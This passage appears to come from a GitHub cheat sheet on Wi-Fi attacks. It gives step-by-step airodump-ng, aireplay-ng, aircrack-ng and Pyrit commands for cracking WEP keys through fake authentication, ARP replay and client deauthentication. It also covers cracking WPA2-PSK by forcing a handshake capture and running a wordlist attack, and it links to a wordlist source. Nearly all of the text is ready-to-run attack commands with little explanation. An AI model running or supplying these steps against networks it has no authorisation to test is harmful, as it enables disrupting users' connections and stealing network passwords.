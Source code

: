 -------------------------

<br>

# <a name="3"></a>3. WEP cracking

1. Start capture
```bash
airodump-ng -c $AP_CHANNEL --bssid $AP_MAC -w $PCAP_FILE $IFACE
```


2. Accelerate the IV capture using *Fake authentication* + *Arp Request Replay Attack* + *Deauthenticate user*. Stop Airodump at ~100.000 different IVs

```bash
aireplay-ng -1 0 -e $AP_NAME -a $AP_MAC -h $MY_MAC $IFACE
aireplay-ng -3 -b $AP_MAC -h $MY_MAC $IFACE
aireplay-ng -0 1 -a $AP_MAC -c $STATION_MAC $IFACE
```

3. Crack the password using Aircrack-ng
```bash
aircrack-ng $PCAP_FILE
```


-------------------------


<br>

# <a name="4"></a>4. WPA2-PSK cracking

## <a name="41"></a>4.1. Cracking the 4-way-handshake

1. Start capture

```bash
airodump-ng -c $AP_CHANNEL --bssid $AP_MAC -w $PCAP_FILE $IFACE
```

2. Deauthenticate an user. Stop airodump capture when you see a message 'WPA handshake: $MAC'

```bash
aireplay-ng -0 1 -a $AP_MAC -c $STATION_MAC $IFACE
```

3. Option 1: Crack the handshake using Aircrack-ng

```bash
aircrack-ng -w $WORDLIST capture.cap
```

You can get wordlists from [here](https://github.com/kennyn510/wpa2-wordlists).

4. Option 2: Crack the handshake using Pyrit

```
pyrit -r $PCAP_FILE analyze
pyrit -r $PCAP_FILE -o $CLEAN_PCAP_FILE strip
pyrit -i $WORDLIST import_passwords
pyrit eval
pyrit batch
pyrit -r $CLEAN_PCAP_FILE attack_db
```
